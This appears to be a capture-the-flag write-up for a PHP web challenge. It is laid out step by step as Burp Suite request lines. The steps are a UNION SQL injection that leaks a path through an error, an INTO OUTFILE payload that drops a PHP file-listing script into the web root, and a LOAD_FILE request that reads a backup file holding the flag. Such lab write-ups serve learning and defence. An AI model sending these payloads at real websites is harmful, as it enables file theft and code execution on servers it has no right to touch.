All the requests below are trimmed to request lines (first lines of requests) as shown in Burp Suite. The rest of the request is irrelevant for the task, as long as it's correct.

[1]

The basic SQL injection with UNION:

> GET /?search='+union+select+null,null,null;--+x HTTP/1.1

gives us PHP error which includes pathname (so that we know where to write to):

> Deprecated: DateTime::__construct(): Passing null to parameter #1 ($datetime) of type string is deprecated in /var/www/html/index.php on line 23

[2]

Using SQL injection and PHP DirectoryIterator class which is not filtered
https://www.php.net/manual/en/class.directoryiterator.php
to read content of `/var/www/html/backups/` directory (which was mentioned in the Change Log from 25-02-2024 on the task).

> GET /?search=x'+union+all+select+'<?php $directory = "/var/www/html/backups/"; try { $iterator = new DirectoryIterator($directory); foreach ($iterator as $file) { if ($file->isDot()) { continue; } echo $file->getFilename() . "<br>"; } } catch (Exception $e) { echo "Error: " . $e->getMessage(); } ?>',null,null+into+outfile+'/var/www/html/ipol.php';--+x HTTP/1.1

[3]

Execute the file

> GET /ipol.php HTTP/1.1

Response:

> flags_1677599396982.bak<br>    \N    \N

[4] 

Using SQL injection and LOAD_FILE to read the backup file:

> GET /?search='+union+select+null,'15-03-2024',LOAD_FILE('/var/www/html/backups/flags_1677599396982.bak');--+x HTTP/1.1

Flag is in the response:

> <div><label>15-03-2024</label><p>1753c{you_c4n_filter_but_you_c4nt_hide}
> </p></div>
